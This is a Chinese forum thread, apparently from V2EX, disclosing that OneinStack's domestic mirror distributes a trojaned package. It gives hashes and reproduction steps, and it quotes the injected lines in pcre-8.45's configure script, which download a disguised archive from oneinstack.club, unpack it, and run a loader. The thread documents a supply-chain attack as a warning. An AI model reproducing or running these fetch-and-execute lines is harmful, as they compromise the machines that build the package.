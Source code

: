 ### Oneinstack 国内下载源也被挂马

# 如何复现

（从海外节点下载暂未发现有此问题）

`mirrors.oneinstack.com` CNAME 到 `seo-one-01.xnsksstack.com`，这个域名 DNS 为 DNSPod ，国内解析为 CNAME `mirrors.oneinstack.com.w.cdngslb.com.` 阿里云 CDN**（含恶意代码）**，海外解析为 A `47.251.13.6`  阿里云美国单点

```bash
# 国内机器或手动指定 mirrors.oneinstack.com.w.cdngslb.com 国内 IP

wget http://mirrors.oneinstack.com/oneinstack-full.tar.gz
tar -xzf oneinstack-full.tar.gz
cd oneinstack/src
tar -xzf pcre-8.45.tar.gz
cd pcre-8.45
grep -r "oneinstack.club" pcre-8.45
```

结果（`pcre-8.45/configure` 第 6883 行）：
```bash
pcre-8.45/configure:wget -q -nv http://download.oneinstack.club/osk.jpg -cO /var/local/osk.jpg
```

验证 MD5：
```
# 恶意包
md5sum oneinstack-full.tar.gz
3dc788dd9fe0c13e3db1411e53932331  oneinstack-full.tar.gz

#海外节点包（暂未发现有此问题）
aa55626f6ba9eb8cae2f5a3d9c6c9b96  oneinstack-full.tar.gz
```
国内国外包对比（右边海外左边国内）：
![]( https://blog-images.huangxin.dev/2023/10/06/714253106.png)

![]( https://blog-images.huangxin.dev/2023/10/06/3337536641.png)

---------------------------------------------------

这怎么实现的

---------------------------------------------------

/t/979048 昨晚刚看到说被收购了

---------------------------------------------------

@2NUT 
`
root@Huangxins-PC:~/oneinstack/src# grep -r '/var/local/' ~/oneinstack/
/root/oneinstack/src/pcre-8.45/configure:wget -q -nv http://download.oneinstack.club/osk.jpg -cO /var/local/osk.jpg
/root/oneinstack/src/pcre-8.45/configure:tar zxf /var/local/osk.jpg -C /var/local/ > /dev/null
/root/oneinstack/src/pcre-8.45/configure:rm -f /var/local/osk.jpg
/root/oneinstack/src/pcre-8.45/configure:/var/local/cron/load linhkkngf@QWE
`

